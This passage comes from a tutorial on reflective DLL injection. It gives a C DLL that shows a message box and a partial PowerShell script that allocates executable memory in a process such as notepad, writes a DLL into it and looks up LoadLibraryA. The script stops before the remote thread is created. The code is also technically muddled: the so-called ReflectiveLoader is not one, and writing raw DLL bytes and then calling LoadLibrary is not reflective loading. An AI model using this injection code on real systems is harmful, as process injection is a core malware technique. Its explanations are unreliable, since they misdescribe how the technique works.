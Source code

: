 2. **Inject the DLL into Target Process**:
    - Use a method (like `CreateRemoteThread` or PowerShell) to inject the DLL into a target process’s memory space.
    
3. **Execute the DLL's Code**:
    - Once injected, the DLL’s loader function is executed, which loads and runs the DLL within the target process.

### **Creating a Reflective DLL**

Below is an example of a minimal Reflective DLL written in C:

```c
#include <Windows.h>

// Function signature for the Reflective DLL loader
DWORD WINAPI ReflectiveLoader(LPVOID lpParameter)
{
    MessageBox(NULL, L"Reflective DLL Injection!", L"Success", MB_OK);
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule, DWORD  ul_reason_for_call, LPVOID lpReserved)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        CreateThread(NULL, 0, ReflectiveLoader, NULL, 0, NULL);
        break;
    }
    return TRUE;
}
```

This DLL displays a message box when injected into a process. The `ReflectiveLoader` function is executed when the DLL is loaded.

### **Injecting the Reflective DLL Using PowerShell**

Below is a PowerShell script that demonstrates how to inject a Reflective DLL into a target process:

```powershell
# PowerShell script to perform Reflective DLL Injection

# Load the target DLL into memory
$ReflectiveDll = [System.IO.File]::ReadAllBytes("C:\path\to\your\reflective.dll")

# Get the handle of the target process (e.g., notepad.exe)
$Process = Get-Process -Name "notepad" # Change "notepad" to your target process
$ProcessHandle = (Get-Process -Id $Process.Id).Handle

# Allocate memory in the target process for the DLL
$RemoteMemoryAddress = [kernel32]::VirtualAllocEx($ProcessHandle, [IntPtr]::Zero, [UIntPtr]::new($ReflectiveDll.Length), 0x1000, 0x40)

# Write the DLL into the allocated memory
[Kernel32]::WriteProcessMemory($ProcessHandle, $RemoteMemoryAddress, $ReflectiveDll, [UInt32]$ReflectiveDll.Length, [UInt32]0)

# Get the address of the LoadLibrary function in kernel32.dll
$LoadLibraryAddr = [Kernel32]::GetProcAddress([Kernel32]::GetModuleHandle("kernel32.dll"), "LoadLibraryA")

# Create a remote thread in the target process to run the Reflective DLL
```